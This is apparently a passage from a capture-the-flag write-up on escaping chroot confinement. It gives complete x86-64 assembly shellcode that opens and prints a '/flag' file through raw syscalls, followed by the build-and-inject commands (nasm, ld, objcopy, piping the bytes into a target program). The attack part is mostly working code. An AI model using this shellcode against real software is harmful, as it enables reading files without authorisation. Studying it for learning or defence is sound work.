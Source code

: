 ```Assembly
section .text
global _start

_start:
    mov dword [rsp], '/fla'  ; Place the file pathname on the stack
    push 'g'                 ; Push 'g' onto the stack
    pop rcx                   ; Pop 'g' into rcx
    mov [rsp + 4], ecx       ; Store 'g' after '/fla'

    ; Opening a file and binding it with an FD
    lea rdi, [rsp]           ; Load effective address of the stack
    xor rsi, rsi             ; Clear rsi (opening flags not required) O_RDONLY
    mov rax, 2               ; rax for sys_open
    syscall

    mov rbx, rax             ; Store FD in rbx

    ; Reading from the opened file
    lea rsi, [rsp]           ; rsi points to our buffer
    mov rdi, rbx             ; rdi receives the FD
    mov rdx, 100             ; rdx defines the maximum bytes to read
    mov rax, 0               ; rax for sys_read
    syscall

    ; Writing to stdout    
    lea rsi, [rsp]           ; rsi points to the buffer
    mov rdi, 1               ; rdi represents stdout (File Descriptor 1)
    mov rdx, rax             ; rdx gets the number of bytes read
    mov rax, 1               ; rax for sys_write
    syscall

    ; Exit the shellcode
    mov rax, 60              ; System call number for sys_exit
    xor rdi, rdi             ; Clear rdi (exit status 0)
    syscall                  ; Call upon the kernel
```

Our stack now holds the file path, and registers orchestrate the symphony of code. This version is our masterpiece, our opus magnum.

And there it is, our creation is complete. We wield this shellcode with pride, for it opens the file,
reads its hidden knowledge, and shares it with the world. Our code dances through registers and memory, 
a true hacker's delight.

```bash
nasm -f elf64 readfile.asm
ld readfile.o -o readfile
objcopy --dump-section .text=shellcode-raw readfile
cat shellcode-raw | ./prog arg
```

The program obeys our commands, revealing the flag content and printing it to stdout. It's not magic; 
it's the art of assembly and the mastery of code.

> Lenart, (2023, september, 4) Evading Chroot Confinement via Tailored Shellcode